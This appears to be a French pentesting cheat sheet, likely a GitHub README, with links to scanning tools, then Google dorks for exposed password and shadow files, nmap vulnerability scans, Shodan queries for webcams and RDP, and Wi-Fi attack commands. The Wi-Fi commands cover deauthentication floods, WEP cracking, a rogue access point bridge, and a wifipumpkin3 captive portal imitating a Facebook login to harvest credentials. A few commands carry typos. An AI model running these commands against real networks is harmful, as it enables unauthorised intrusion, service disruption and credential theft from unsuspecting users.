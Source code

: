 # Liens :

Clair-scanner :
- https://github.com/arminc/clair-scanner/blob/master/README.md
- https://github.com/quay/clair
- https://chathura-siriwardhana.medium.com/docker-image-security-scan-with-clair-94b766faff3c 


GoogleContainerTools :
- https://github.com/GoogleContainerTools 

Global DDOS attack :
- https://www.digitalattackmap.com/

Wigle :
- https://wigle.net/

Shodan :
- https://www.shodan.io/


# Osint
Google opérateur : 
```
m.trix
“Robert Masse”


Inurl: cgi-bin
Allinurl: cgi-bin password
allintitle: "index of/admin"
allintitle: "index of/root"
allintitle: sensitive filetype:doc
allintitle: restricted filetype :mail
allintitle: restricted filetype:doc site:gov
inurlasswd filetype:txt
inurl:admin filetype:db
inurl:iisadmin
inurl:"auth_user_file.txt"
inurl:"wwwroot/*."
top secret site:mil
confidential site:mil
allinurl: winnt/system32/ (get cmd.exe)
allinurl:/bash_history
intitle:"Index of" .sh_history
intitle:"Index of" .bash_history
intitle:"index of" passwd
intitle:"index of" people.lst
intitle:"index of" pwd.db
intitle:"index of" etc/shadow
intitle:"index of" spwd
intitle:"index of" master.passwd
intitle:"index of" htpasswd
intitle:"index of" members OR accounts
intitle:"index of" user_carts OR user_cart
allintitle: "index of/admin"
allintitle: "index of/root"
allintitle: sensitive filetype:doc
allintitle: restricted filetype :mail
allintitle: restricted filetype:doc site:gov
```

# NMAP
```
nmap @ip

scan les 65535 ports existants
nmap @ip -p-

scan OS
nmap @ip -O

@scan vuln
nmap @ip -script vuln

```
# Wireshark
```
tcp.port == 80 || udp.port == 80
ip.dst == 192.168.1.46
```

# Shodan
```
2009 john matherly
Mr Robot
maj h24/7j

os:windows
os:windows country:fr
camera city:paris
webcamxp
port:22
port:3389
title:"hacked by"
```

# WIFI
## Trouver les réseaux wifi accessible

```sh
iwlist wlan0 scanning
```
# Monitoring

## Changer le regulatory domains

```sh
iw reg set BO
``` 
> BO = Bolivie


## Change le tx-power 

```sh
iwconfig wlan0 txpower 30
```

## Carte wifi en mode monitor 
```sh
airmon-ng start wlan0
```

## Réseaux caché 
```sh
airodump-ng wlan0mon
wireshark : filtre = wlan.addr = BSSID
```

## Désauthentification
```sh
aireplay--ng -0 5 - a BSSID --ignore-negative wlan0mon
aireplay-ng -0 1000 -a BSSID_DU_WIFI -c BSSID_DE_LOBJET_CONNECTE --ignore-negative-one wlan0mon
```

## Changer de channel
```sh
iwconfig wlan0mon channel 1
```

## Interaction airodump

raccourci-clavier pour l'affichage de airodump

```
[a]: Select active areas by cycling through these display options: AP+STA; AP+STA+ACK; AP only; STA only

[d]: Reset sorting to defaults (Power)
[i]: Invert sorting algorithm
[m]: Mark the selected AP or cycle through different colors if the selected AP is already marked
[r]: (De-)Activate realtime sorting - applies sorting algorithm everytime the display will be redrawn

[s]: Change column to sort by, which currently includes: First seen; BSSID; PWR level; Beacons; Data packets; Packet rate; Channel; Max. data rate; Encryption; Strongest Ciphersuite; Strongest Authentication; ESSID

[SPACE]: Pause display redrawing/ Resume redrawing

[TAB]: Enable/Disable scrolling through AP list
[UP]: Select the AP prior to the currently marked AP in the displayed list if available
[DOWN]: Select the AP after the currently marked AP if available
```


## Attaque WEP 
```sh
airodump-ng -c 9 --bssid BSSID --write WEPCRACKING wlan0mon
aireplay-ng -3 -b BSSID -h MACHOST --ignore-negative-one wlan0mon
aircrack-ng WEPCRACKING-03.cap 
```


## Rogue AP
```sh
airbase-ng --essid AA1AA2 -c 11 wlan0mon
brctl addbr Wifi-Bridge
brctl addif Wifi-Bridge eth0
brctl addif Wifi-Bridge at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig Wifi-Bridge 192.168.1.55 up 

```

## Rogue AP MITM
```sh
sudo wifipupkin3
help
show
use misc.extra_captiveflask
help
download
proxies
set proxy captiveflask
set captiveflask.facebook true
ap

set ssid WIFI_PUMP 
set interface wlan0
ap 
start

```


